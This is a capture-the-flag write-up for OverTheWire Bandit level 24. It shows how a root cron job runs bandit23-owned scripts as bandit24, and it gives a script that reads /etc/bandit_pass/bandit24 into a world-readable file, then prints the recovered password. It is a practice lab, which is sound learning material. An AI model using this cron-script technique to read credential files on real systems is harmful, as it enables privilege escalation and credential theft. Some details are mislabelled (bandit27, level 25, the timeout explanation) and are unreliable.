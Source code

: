 # Level 24

### Level Info

A program is running automatically at regular intervals from **cron**, the time-based job scheduler. Look in **/etc/cron.d/** for the configuration and see what command is being executed.

**NOTE:** This level requires you to create your own first shell-script. This is a very big step and you should be proud of yourself when you beat this level!

**NOTE 2:** Keep in mind that your shell script is removed once executed, so you may want to keep a copy around…

### Commands you may need to solve this level

chmod, cron, crontab, crontab(5) (use “man 5 crontab” to access this)

# Solution

First, we check what the cron job is doing:

```sh
bandit23@bandit:~$ cd /etc/cron.d

bandit23@bandit:/etc/cron.d$ ls -l
total 24
-rw-r--r-- 1 root root 120 Jul 17 15:57 cronjob_bandit22
-rw-r--r-- 1 root root 122 Jul 17 15:57 cronjob_bandit23
-rw-r--r-- 1 root root 120 Jul 17 15:57 cronjob_bandit24
-rw-r--r-- 1 root root 201 Apr  8 14:38 e2scrub_all
-rwx------ 1 root root  52 Jul 17 15:59 otw-tmp-dir
-rw-r--r-- 1 root root 396 Jan  9  2024 sysstat
## LEEMOS TAREA CRON
bandit23@bandit:/etc/cron.d$ cat cronjob_bandit24
@reboot bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null
* * * * * bandit24 /usr/bin/cronjob_bandit24.sh &> /dev/null

## LEEMOS EL SCRIPT QUE EJECUTA CADA MINUTO
bandit23@bandit:/etc/cron.d$ cat /usr/bin/cronjob_bandit24.sh
#!/bin/bash

myname=$(whoami)

cd /var/spool/$myname/foo
echo "Executing and deleting all scripts in /var/spool/$myname/foo:"
for i in * .*;
do
    if [ "$i" != "." -a "$i" != ".." ];
    then
        echo "Handling $i"
        owner="$(stat --format "%U" ./$i)"
        if [ "${owner}" = "bandit23" ]; then
            timeout -s 9 60 ./$i
        fi
        rm -f ./$i
    fi
done
```

This script executes all the scripts created by bandit23 (owner: bandit23) if these scripts have execution permissions for others (note). It provides a runtime between 9 to 60 seconds to avoid issues with infinite loops or errors and then deletes the file.

#### Question: If it is executed by bandit24, will I have access to bandit24?
Practical example with **whoami**:
If we create a script that tells us the current user:

```sh
#!/bin/bash

echo "$(whoami)">/tmp/tmp.O0Y51DcGYw/file_name
chmod o+r /tmp/tmp.O0Y51DcGYw/file_name
```
What happens if we copy the file in the specific folder /var/spool/bandit24/foo/:

```sh
# WE COPY THE SCRIPT TO THE DIRECTORY WHERE THE SCRIPTS ARE EXECUTED
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ cp script.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ watch -n 1 ls -l
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ cat file_name
bandit24
```

With the following script, we will copy the password for bandit27:

```sh
#!/bin/bash

cat /etc/bandit_pass/bandit24>/tmp/tmp.O0Y51DcGYw/pass_24.log
chmod o+r /tmp/tmp.O0Y51DcGYw/pass_24.log
```
And the result is:
```sh
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ cp script.sh /var/spool/bandit24/foo/
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ watch -n 1 ls -l
bandit23@bandit:/tmp/tmp.O0Y51DcGYw$ cat pass_24.log 
gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
```

# Password for level 25:

gb8KRRCsshuZXI0tUuR6ypOFjiZbf3G8
